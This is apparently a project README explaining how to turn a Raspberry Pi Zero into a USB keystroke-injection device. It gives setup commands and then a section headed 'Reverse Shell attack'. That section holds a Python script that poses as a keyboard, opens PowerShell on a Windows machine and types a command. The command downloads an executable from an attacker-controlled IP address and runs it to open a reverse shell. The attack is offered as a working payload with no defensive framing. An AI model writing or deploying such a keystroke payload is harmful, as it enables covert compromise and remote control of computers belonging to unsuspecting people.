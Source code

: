 # Requirements

- Raspberry Pi Zero
- Micro usb to usb A adapter
- Revese Shell Server
- (optional) [Micro usb to usb A dongle](https://52pi.com/collections/raspberry-pi-zero/products/52pi-usb-dongle-for-raspberry-pi-zero-zero-w)

# Setup

- Install [Raspberry Pi Imager](https://www.raspberrypi.com/software/)
- Flash the OS into a SD card using Raspberry Pi Imager
- Insert the SD card into the PI
- Get the Pi's ip by accessing the routers domain and ssh into the device 
- Install apt dependencies
```
sudo apt-get update
sudo apt-get install -y git vim python3-pip python3-venv
```
- init rc-local file
```
sudo bash -c 'echo "#!/bin/bash" > /etc/rc.local'
sudo bash -c 'echo "exit 0" >> /etc/rc.local'   
sudo chmod +x /etc/rc.local
sudo systemctl daemon-reload
sudo systemctl enable rc-local
sudo systemctl start rc-local
```
- setup usb gadget module
```
git clone https://github.com/thewh1teagle/zero-hid
cd zero-hid/usb_gadget
sudo ./installer
```
- add sudo to the file line added by the script
- Create virtual environment and install module
```
python3 -m venv ~/venv
source ~/venv/bin/activate
pip3 install zero-hid
sudo reboot
```
# Reverse Shell attack

- Setup the Reverse Shell Server

- create a link on the server and run the following script
```python
from zero_hid import Keyboard, KeyCodes
from zero_hid.hid import keycodes
from time import sleep


with Keyboard() as k:
    k.press([KeyCodes.MOD_LEFT_GUI], KeyCodes.KEY_R)
    sleep(2)
    k.type("powershell")
    k.press([], KeyCodes.KEY_ENTER)
    sleep(2)
    k.type("Invoke-WebRequest -Uri http://192.168.1.140:3232/4ac5d816227cbfba9580a510af5272e2 -OutFile test.exe; Start-Process .\\test.exe")
```


